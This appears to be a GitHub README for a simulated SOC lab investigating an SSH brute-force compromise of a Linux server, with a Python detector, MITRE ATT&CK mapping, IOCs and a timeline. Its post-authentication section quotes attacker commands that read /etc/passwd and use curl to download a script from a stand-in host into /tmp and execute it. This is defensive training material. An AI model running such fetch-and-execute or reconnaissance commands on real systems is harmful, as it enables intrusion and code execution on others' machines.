




# SOC Incident Investigation Lab


## Overview


This project demonstrates a simulated Security Operations Center (SOC) investigation involving suspicious SSH authentication activity against a Linux web server.


The investigation begins with repeated failed authentication attempts from a single external IP address and progresses to a successful account login, privileged command execution, system reconnaissance, external file transfer, and execution of a downloaded script.


The goal of this project was to practice analyzing authentication logs, identifying indicators of compromise, reconstructing an attack timeline, mapping observed behavior to MITRE ATT&CK, and developing a Python-based detection script.


> **Note:** This is a simulated cybersecurity lab. The IP addresses used in the dataset are documentation addresses and do not represent actual malicious systems.


---


## Scenario


A SOC alert identified an unusual number of failed SSH authentication attempts against:


**Asset:** `WEB-SRV-01`


Initial investigation identified repeated login attempts from:


`203.0.113.45`


The activity targeted several usernames before successfully authenticating to the `daniel` account.


Further investigation was conducted to determine whether the activity represented normal user behavior or a potential compromise.


---


## Investigation Process


The investigation included:


1. Reviewing raw SSH authentication logs

2. Counting failed authentication attempts

3. Identifying targeted usernames

4. Extracting suspicious source IP addresses

5. Correlating failed and successful authentication events

6. Reviewing activity following successful authentication

7. Identifying indicators of compromise

8. Mapping observed behavior to MITRE ATT&CK

9. Developing Python detection logic to automate authentication analysis


---


## Key Findings


The analysis identified:


- **11 failed SSH authentication attempts**

- **6 usernames targeted**

- All failed attempts originated from `203.0.113.45`

- `admin` was targeted 4 times

- `daniel` was targeted 3 times

- `daniel` successfully authenticated 18 seconds after the final failed attempt

- Privileged commands were executed using `sudo`

- `/etc/passwd` was accessed

- Configuration files were searched

- `update.sh` was downloaded from `198.51.100.27`

- The downloaded script was given executable permissions

- `/tmp/update.sh` was executed


Based on the available evidence, the activity was assessed as a **likely system compromise**.


---


## Authentication Analysis


PowerShell was used to analyze failed authentication events, targeted accounts, and source IP activity.








---


## Python Detection


A Python script was developed to automate analysis of the SSH authentication logs.


The detector:


- Counts failed authentication attempts

- Extracts targeted usernames

- Identifies source IP addresses

- Flags IP addresses exceeding a failed-login threshold

- Correlates failed authentication attempts with subsequent successful authentication

- Tracks username and source-IP combinations

- Processes authentication events chronologically


Example detection:


```text

[WARNING] 203.0.113.45 generated 11 failed login attempts.


[HIGH ALERT] Successful login for 'daniel' from 203.0.113.45 after 3 previous failed attempts against the same account.


```



---

## Post-Authentication Activity

Following successful authentication, the account performed several suspicious actions:

```text
whoami
cat /etc/passwd
find / -name "*.conf"
curl http://198.51.100.27/update.sh -o /tmp/update.sh
chmod +x /tmp/update.sh
/tmp/update.sh
```

These commands indicate system/account discovery, filesystem reconnaissance, external file transfer, and execution of a downloaded script.



---

## MITRE ATT&CK Mapping

| Observed Activity | MITRE ATT&CK Technique | Technique ID |
|---|---|---|
| Repeated SSH password attempts against multiple accounts | Password Guessing | T1110.001 |
| Reading `/etc/passwd` to identify system accounts | Account Discovery: Local Account | T1087.001 |
| Searching the filesystem for `.conf` files | File and Directory Discovery | T1083 |
| Downloading `update.sh` using `curl` | Ingress Tool Transfer | T1105 |
| Executing commands and the downloaded shell script | Command and Scripting Interpreter: Unix Shell | T1059.004 |

---

## Indicators of Compromise

| Indicator | Type | Context |
|---|---|---|
| `203.0.113.45` | IP Address | Source of failed and successful SSH authentication |
| `198.51.100.27` | IP Address | Host used to retrieve `update.sh` |
| `daniel` | Account | Account successfully authenticated |
| `/tmp/update.sh` | File | Downloaded and executed script |

---

## Attack Timeline

```text
09:10:03    Failed SSH attempts begin
    |
09:13:49    Final failed login against daniel
    |
09:14:07    Successful login as daniel
    |
09:14:42    Privileged command activity begins
    |
09:15:03    /etc/passwd accessed
    |
09:15:31    Configuration-file discovery
    |
09:16:14    update.sh downloaded
    |
09:16:39    Script made executable
    |
09:16:51    Script executed
    |
09:17:36    SSH session closed
```

---

## Tools & Technologies

- Python
- PowerShell
- Git
- GitHub
- Linux authentication logs
- Regular Expressions (Regex)
- MITRE ATT&CK

---

## Repository Structure

```text
SOC-Incident-Investigation-Lab/
│
├── README.md
├── indicators/
│   └── iocs.txt
├── logs/
│   └── authentication.log
├── reports/
│   └── incident-report.md
├── screenshots/
│   ├── 01-failed-login-analysis.png
│   ├── 02-source-ip-analysis.png
│   ├── 03-python-authentication-detector.png
│   └── 04-post-compromise-activity.png
└── scripts/
    └── failed_login_detector.py
```

---

## Skills Demonstrated

- SOC alert investigation
- Security log analysis
- SSH authentication analysis
- Incident triage
- Indicator of Compromise (IOC) identification
- Event correlation
- Python security automation
- PowerShell log analysis
- Regular expressions
- MITRE ATT&CK mapping
- Incident documentation
- Git/GitHub version control

---

## Lessons Learned

This lab demonstrated the importance of correlating authentication events rather than analyzing individual log entries in isolation.

While a high number of failed login attempts may indicate password guessing, correlating those attempts with a subsequent successful authentication from the same source provides stronger evidence of potential compromise.

The project also demonstrated how Python can automate repetitive log-analysis tasks and help analysts identify suspicious authentication patterns more efficiently.

---

## Disclaimer

This project was created for educational and portfolio purposes in a controlled, simulated environment. The data does not represent an actual security incident.

